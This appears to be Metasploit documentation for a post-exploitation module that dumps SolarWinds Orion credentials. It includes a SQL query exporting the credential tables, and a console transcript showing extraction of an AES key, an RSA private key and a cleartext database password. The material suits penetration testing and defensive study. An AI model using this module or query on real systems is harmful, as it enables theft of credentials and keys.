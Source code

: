 ### SQL Data Acquisition

The sqlcmd binaries (part of the SQL Server Management Studio) must be installed on the system
to access the database. Orion does not install SSMS or sqlcmd by default if it is not also
installing a local SQL server instance - in such cases, it will be necessary to extract the
encrypted database manually and provide the module with a path to the extracted data. To do so
execute the SQL query below against the Orion database and save the resulting row set as a CSV file.

The CSV header must match:

`CredentialID,Name,Description,CredentialType,CredentialOwner,CredentialPropertyName,Value,Encrypted`:

Columns are cast `VARBINARY` to deal with poor CSV export support in `sqlcmd`. Export the results of
the query below to CSV file:

```
SELECT 
  c.ID AS CredentialID,
  CONVERT(VARBINARY(1024),c.Name) Name,
  CONVERT(VARBINARY(1024),c.Description) Description,
  CONVERT(VARBINARY(256),c.CredentialType) CredentialType,
  CONVERT(VARBINARY(256),c.CredentialOwner) CredentialOwner,
  CONVERT(VARBINARY(1024),cp.Name) CredentialPropertyName,
  CONVERT(VARBINARY(8000),cp.Value) Value,
  cp.Encrypted 
FROM
  [dbo].[Credential] AS c
JOIN 
  [dbo].[CredentialProperty] AS cp ON (c.ID=cp.CredentialID)
```

### Examples

Windows Server 2019 host running Orion NPM 2020 using the `dump` action:

```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/solarwinds_orion_dump
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > set session 1
session => 1
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > dump

[*] Hostname WINNING IPv4 192.168.101.125
[*] SolarWinds Orion Build 2020.2.65120.0
[*] SolarWinds Orion Install Path: C:\Program Files (x86)\SolarWinds\Orion\
[*] Init SolarWinds Crypto ...
[*] Decrypt SolarWinds CryptoHelper Keystorage ...
[+] Compressed size: 2104
[+] Orion AES Encryption Key
[+]     HEX: 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
[*] Extract SolarWinds Orion SSL Certificate Private Key ...
[+] Compressed size: 1344
[+] Compressed size: 1736
[+] Extracted SolarWinds Orion RSA private key for LocalMachine certificate with SHA1 thumbprint C3D5248B978C8D161DA0267C1DE946B1FDE4E7D2
[+] SolarWinds Orion RSA Key: /root/.msf4/loot/20221118093908_default_192.168.101.125_orionssl_000289.key
[*] Decrypt SWNetPerfMon.DB ...
[+] Compressed size: 2064
[+] SolarWinds Orion SQL Database Connection Configuration:
[+]     Instance Name: tcp:cornflakes.cesium137.io
[+]     Database Name: SolarWindsOrion
[+]     Database User: orion
[+]     Database Pass: 3qmEixYNZsElaE0JR0vt9c1NwO
```